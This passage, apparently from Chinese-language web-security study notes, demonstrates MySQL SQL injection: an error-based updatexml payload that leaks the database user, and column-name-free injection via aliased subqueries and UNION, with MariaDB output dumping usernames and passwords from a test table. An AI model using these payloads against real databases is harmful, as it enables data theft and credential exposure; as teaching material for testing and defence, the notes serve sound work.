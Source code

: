 **payload：**

```mysql
user` where updatexml(1,concat(0x5e24,(select user()),0x5e24),1)%23`
```

**sql语句：**

```mysql
select * from `shop_user` where updatexml(1,concat(0x5e24,(select user()),0x5e24),1)#`` where 1=1
```

![mysql_sql-2](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/mysql_sql-2.jpg)

#### 无列名注入

**别名**

```mysql
MariaDB [test]> select * from (select 1)a,(select 2)b,(select 3)c;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
1 row in set (0.000 sec)

MariaDB [test]> select * from (select 1)a,(select 2)b,(select 3)c union select * from user;
+---+--------+--------+
| 1 | 2      | 3      |
+---+--------+--------+
| 1 | 2      | 3      |
| 1 | admin  | admin  |
| 2 | hasaki | hasaki |
| 3 | 666    | 2333   |
+---+--------+--------+
4 rows in set (0.001 sec)

MariaDB [test]> select e.3 from (select * from (select 1)a,(select 2)b,(select 3)c union select * from user)e;
+--------+
| 3      |
+--------+
| 3      |
| admin  |
| hasaki |
| 2333   |
+--------+
4 rows in set (0.001 sec)

MariaDB [test]> select e.3 from (select * from (select 1)a,(select 2)b,(select 3)c union select * from user)e limit 1 offset 3 ;
+------+
| 3    |
+------+
| 2333 |
+------+
1 row in set (0.001 sec)

MariaDB [test]> select * from user where id=1 union select 1,2,3;
+----+----------+--------+
| id | username | passwd |
+----+----------+--------+
|  1 | admin    | admin  |
|  1 | 2        | 3      |
+----+----------+--------+
2 rows in set (0.000 sec)
```